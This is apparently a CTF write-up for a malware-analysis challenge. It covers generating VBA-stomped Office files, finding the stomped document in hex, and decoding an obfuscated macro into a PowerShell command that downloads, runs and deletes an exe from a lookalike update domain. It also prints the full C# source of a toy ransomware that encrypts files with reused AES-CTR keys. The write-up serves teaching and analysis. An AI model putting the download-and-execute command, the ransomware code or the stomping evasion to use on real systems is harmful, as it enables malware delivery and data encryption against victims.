


## Generate

Run python script.py to generate all the macro documents (xls and doc). It will create the actual malicious one for "Space Pirate Code of Conduct.doc".

Then, carry out the VBA stomping on the actual malicious macro. Make sure you delete after the correct (second) attribute.

Next, use `modify_date.py` to smash the date modified of your target macro file, so it's not obvious it was modified after the others.

Finally, zip them all up and you have your deliverable for the challenge.
## Solve

### Find the VBA Stomp

Looking through the hex of the files, you can see the macros recorded (in part) in the older .doc and .xls files. Specifically, string searching for "VB_" (the full string `Attribute VB_Name` usually gets chopped up, so pick a smaller crib that works through trial and error) should yield two results for .doc and 3 for .xls. In each, the final result is the VBA macro source code, and the first (and potentially second) result is the compiled P-Code. In VBA stomping, the source code is replaced with benign text while the P-Code (compiled VBA code) is left alone. This lets the macro run without the text being present for static analysis to pick up.

To find which file has been VBA stomped, you can look at the hex data in the word doc using the "Attr" crib text to find which document doesn't have a plaintext macro present.

```bash
for file in *.doc *.xls; do echo "\nFilename: $file\n" >> macro_inspector.txt; xxd $file | grep -A 10 "Attr" >> macro_inspector.txt; done
```

This will generate a text file showing a snippet of the stored VBA code and P-Code for each document. Note that for the excel .xls files, 

Here's an example of a non-VBA smashed document output:

```text
Filename: Dragon Training Manual.doc

00006510: 0041 7474 7269 6275 7400 6520 5642 5f4e  .Attribut.e VB_N
00006520: 616d 0065 203d 2022 5468 6900 7344 6f63  am.e = "Thi.sDoc
00006530: 756d 656e 1074 220d 0a0a 8c42 6173 0102  umen.t"....Bas..
00006540: 8c31 4e6f 726d 616c 022e 1956 476c 6f62  .1Normal...VGlob
00006550: 616c 2101 aa53 7061 6301 6c46 6108 6c73  al!..Spac.lFa.ls
00006560: 650c a243 7265 6110 7461 626c 151f 5072  e..Crea.tabl..Pr
00006570: 6520 6465 636c 6100 0649 6411 009e 5472  e decla..Id...Tr
00006580: 750d 4245 7870 086f 7365 141c 5465 6d70  u.BExp.ose..Temp
00006590: 006c 6174 6544 6572 6902 7615 2443 7573  .lateDeri.v.$Cus
000065a0: 746f 6d0c 697a 8443 8331 0000 0000 0000  tom.iz.C.1......
000065b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
--
00006e20: ff00 0001 51b1 0041 7474 7269 6275 7400  ....Q..Attribut.
00006e30: 6520 5642 5f4e 616d 0065 203d 2022 4d6f  e VB_Nam.e = "Mo
00006e40: 6400 756c 6531 220d 0a53 0075 6220 446f  d.ule1"..S.ub Do
00006e50: 6375 6d00 656e 745f 4f70 656e 2028 290d  cum.ent_Open ().
00006e60: 0a20 0000 4d79 004d 6163 726f 0d0a 4548  . ..My.Macro..EH
00006e70: 6e64 2000 4a0d 0a03 5841 5875 746f 214e  nd .J...XAXuto!N
00006e80: 047e 7305 9e44 0069 6d20 7374 7220 41c8  .~s..D.im str A.
00006e90: 7320 5300 916e 6703 6601 1201 0090 706f  s S..ng.f.....po
00006ea0: 7765 7273 6800 656c 6c20 496e 766f 006b  wersh.ell Invo.k
00006eb0: 652d 5765 6252 6500 7175 6573 7420 2d55  e-WebRe.quest -U
00006ec0: 0072 6920 2768 7474 7000 3a2f 2f63 6f76  .ri 'http.://cov
```

Note that in the first set of hex, the P-Code is present. In the second set of hex, the VBA source code is present, and in this case you can see plaintext powershell.

If you look through all the files this way, one should stand out. In "Space Pirate Code of Conduct.doc", the source code section has been stomped, replaced with all zeros.

```text
Filename: Space Pirate Code of Conduct.doc

00006310: 0041 7474 7269 6275 7400 6520 5642 5f4e  .Attribut.e VB_N
00006320: 616d 0065 203d 2022 5468 6900 7344 6f63  am.e = "Thi.sDoc
00006330: 756d 656e 1074 220d 0a0a 8c42 6173 0102  umen.t"....Bas..
00006340: 8c31 4e6f 726d 616c 022e 1956 476c 6f62  .1Normal...VGlob
00006350: 616c 2101 aa53 7061 6301 6c46 6108 6c73  al!..Spac.lFa.ls
00006360: 650c a243 7265 6110 7461 626c 151f 5072  e..Crea.tabl..Pr
00006370: 6520 6465 636c 6100 0649 6411 009e 5472  e decla..Id...Tr
00006380: 750d 4245 7870 086f 7365 141c 5465 6d70  u.BExp.ose..Temp
00006390: 006c 6174 6544 6572 6902 7615 2443 7573  .lateDeri.v.$Cus
000063a0: 746f 6d0c 697a 8443 8331 0000 0000 0000  tom.iz.C.1......
000063b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
--
000080f0: ff00 0001 ceb3 0041 7474 7269 6275 7400  .......Attribut.
00008100: 6520 5642 5f4e 616d 0065 0000 0000 0000  e VB_Nam.e......
00008110: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008120: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008130: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008140: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008150: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008160: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008170: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008180: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00008190: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

This reveals that "Space Pirate Code of Conduct.doc" is the malicious file that was VBA stomped. Opening the file, you may notice that the macros do not initially load. This is because their plaintext has been removed. 

If you try and view the macros in the document, it will likely crash unless you happen to be running the target build and version of MS word (this is a common limitation of VBA Stomping, the compiled P-Code must match the build and version of the victim).

However, if you enable macros and run the payload (it will try to run automatically upon enabling macros for the document), you will see their source code re-populate in the editing window. It will remain this way for subsequent views of the script, even through the file content and hash stay the same.

This can be finicky, and running in a VM with windows defender off can help prevent crashing. Note that the malware will reach out to a remove server and download a file, but the executable doesn't delete or modify and files.

## Decode the Macro



The malicious macro (along with several of its friends) are encoded using a common obfuscation technique. You can reverse engineer this technique by hand (or just ask chat-gpt to do it for you). The script stores the command as a string of numbers, which gets shifted and converted back into text by various functions. Once reverse engineered, you can decode the numbers to their original text using a script like this (generated with chat-gpt):

```powershell
$encodedPayload = $args[0]

# Define an empty string to store the decoded output
$output = ""

# Loop through the encoded payload in groups of three characters
for ($i = 0; $i -lt $encodedPayload.Length; $i += 3) {
    # Extract the current group of three characters
    $charCode = $encodedPayload.Substring($i, 3)

    # Convert the three-character string back to a byte and subtract 16
    $decodedChar = [char]([byte]::Parse($charCode) - 16)

    # Append the decoded character to the output string
    $output += $decodedChar
}

# Output the decoded payload
$output
```

Running this script with the encoded values will reveal what the macro is doing:

```powershell
PS C:\Users\Joram\Desktop> powershell -exec bypass .\decode.ps1 128127135117130131120117124124048056089126134127123117061103117114098117129133117131132048055120132132128074063063134134121126116127135131133128116113132117062115127125074072064072064063133128116113132117055048061101131117082113131121115096113130131121126119048061088117113116117130131048080139055120117113130132114117113132055077055073072072069114072064064070067114114071114113071068118071069114070118072113118118066073065114115073065115118113072117114071071116073068066116068067067115073065071072113113073117073073115070118055141048061095133132086121124117048055083074108103121126116127135131108100113131123131108083120130127125117101128116113132117062117136117055057075048083074108103121126116127135131108100113131123131108083120130127125117101128116113132117062117136117075048116117124048083074108103121126116127135131108100113131123131108083120130127125117101128116113132117062117136117

powershell (Invoke-WebRequest 'http://vvindowsupdate.com:8080/update' -UseBasicParsing -Headers @{'heartbeat'='9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f'} -OutFile 'C:\Windows\Tasks\C
hromeUpdate.exe'); C:\Windows\Tasks\ChromeUpdate.exe; del C:\Windows\Tasks\ChromeUpdate.exe
```

This reveals the heart of the macro. A malicious exe is downloaded from a server using a certain key:

```powershell
(Invoke-WebRequest 'http://vvindowsupdate.com:8080/update' -UseBasicParsing -Headers @{'heartbeat'='9885b80063bb7ba74f75b6f8aff291bc91cfa8eb77d942d433c9178aa9e99c6f'} -OutFile 'C:\Windows\Tasks\C
hromeUpdate.exe')
```

And the malware is run:

```
C:\Windows\Tasks\ChromeUpdate.exe
```

And deleted:

```
del C:\Windows\Tasks\ChromeUpdate.exe
```

## Getting the Ransomware

Now that we know the code the macro runs, we can try and obtain a copy of the malware for ourselves. Using a tool like curl, you can request the malware from the web server.

I used curl, but you can also use various powershell commands as well.



Curling with the correct header returns the malware, as well as the first flag in an HTTP response header from the server.

```
flag: flag{734b55458dc74fb6d5f5a5082a3920d6}
```

## Reverse Engineering the Ransomware

Once the malware is obtained, the entire binary is written in C#. Here is the source code of the binary

```c#
using System.Security.Cryptography;
using System.Text;
using RansomwareUsingAES_CTR;

namespace Ransomware
{
    class Program
    {
        static string GenerateFlag(byte[] input)
        {
            Array.Reverse(input);
            byte xorValue = 0x42;
            for (int i = 0; i < input.Length; i++)
            {
                input[i] ^= xorValue;
            }
            using (MD5 md5 = MD5.Create())
            {
                byte[] hashBytes = md5.ComputeHash(input);
                string md5Hash = BitConverter.ToString(hashBytes).Replace("-", "").ToLower();
                return "flag{" + md5Hash + "}";
            }
        }
        static void FileEnumeration(string dir, List<FileInfo> files)
        {
            foreach (string file in Directory.GetFiles(dir, "*.*", SearchOption.TopDirectoryOnly))
            {
                if (CheckFile(new FileInfo(file)) == true)
                {
                    files.Add(new FileInfo(file));
                }
            }
            foreach (string subDir in Directory.GetDirectories(dir))
            {
                try
                {
                    FileEnumeration(subDir, files);
                }
                catch (UnauthorizedAccessException ex) { }
            }
        }

        static void Encrypt(string filename, byte[] key, byte[] nonce, ulong counter)
        {
            try
            {
                var encFilename = Path.GetDirectoryName(filename) + '\\' + Path.GetFileName(filename).Replace(Path.GetExtension(filename), ".EXTEN");
                var counterMode = new AesCounterMode(nonce, counter);
                var encryptor = counterMode.CreateEncryptor(key, null);
                byte[] dataToEncrypt = new byte[0];
                using (Stream inputStream = File.OpenRead(filename))
                using (var memoryStream = new MemoryStream())
                {
                    inputStream.CopyTo(memoryStream);
                    dataToEncrypt = memoryStream.ToArray();
                }
                var encryptedData = new byte[dataToEncrypt.Length];
                encryptor.TransformBlock(dataToEncrypt, 0, dataToEncrypt.Length, encryptedData, 0);
                File.WriteAllBytes(encFilename, encryptedData);
                //File.Delete(filename);
            }
            catch (Exception ex) { }
        }

        static void Main()
        {
            List<FileInfo> filesToEncrypt = new List<FileInfo>();
            FileEnumeration("C:\\Users\\lenovo\\Desktop\\FilesToEncrypt", filesToEncrypt);
            byte[] keyBytes = Generate128BitsOfRandomEntropy();
            var nonce = Encoding.UTF8.GetBytes("n0nc3FTW");
            ulong counter = 0;
            foreach (FileInfo file in filesToEncrypt)
            {
                Encrypt(file.FullName, keyBytes, nonce, counter);
            }
            var flag = GenerateFlag(nonce);
        }

        private static byte[] Generate128BitsOfRandomEntropy()
        {
            var randomBytes = new byte[16];
            RandomNumberGenerator.Create().GetBytes(randomBytes);
            return randomBytes;
        }

        private static bool CheckFile(FileInfo file)
        {
            var filename = file.FullName;
            if (Path.GetExtension(filename) == ".exe" || Path.GetExtension(filename) == ".dll" || Path.GetExtension(filename) == ".lnk" || Path.GetExtension(filename) == ".sys" || Path.GetExtension(filename) == ".msi" || Path.GetExtension(filename) == ".EXTEN" || Path.GetExtension(filename) == ".ost" || Path.GetExtension(filename) == ".pst" || Path.GetFileName(filename) == "desktop.ini")
            {
                return false;
            }
            return true;
        }
    }
}
```

From the source code, we can see that there is a `GenerateFlag` function that is given below. 
```c#
...
        static string GenerateFlag(byte[] input)
        {
            Array.Reverse(input);
            byte xorValue = 0x42;
            for (int i = 0; i < input.Length; i++)
            {
                input[i] ^= xorValue;
            }
            using (MD5 md5 = MD5.Create())
            {
                byte[] hashBytes = md5.ComputeHash(input);
                string md5Hash = BitConverter.ToString(hashBytes).Replace("-", "").ToLower();
                return "flag{" + md5Hash + "}";
            }
        }
...
            var nonce = Encoding.UTF8.GetBytes("n0nc3FTW");
...
            var flag = GenerateFlag(nonce);
...
```
We can see that it takes the nonce, reverses it, and does an xor with `0x42`. Then, the MD5 is taken as the result and returned as the flag. This is the flag for the second challenge

```
flag: flag{9335fd733e24164c98b741e49ec064c3}
```

Reading about how the encryption is done, we see that AES-CTR mode is used. This is how AES-CTR mode works


The vulnerability is that the key and nonce are reused for each file as a part of the encryption. This means it effectively acts as a one-time pad where the key is reused to encrypt different texts.

Through the hint in the description and the name of the files, players can guess that the file labeled `nahamcon` is the logo on the front page of the CTF. They can XOR that with the encrypted version to get the key that can decrypt all the other files.

The flag is in the image titled `Captain Fuzzypants`.

```
flag: flag{fd2a43e7095c16685e86567f20f2eca5}
```
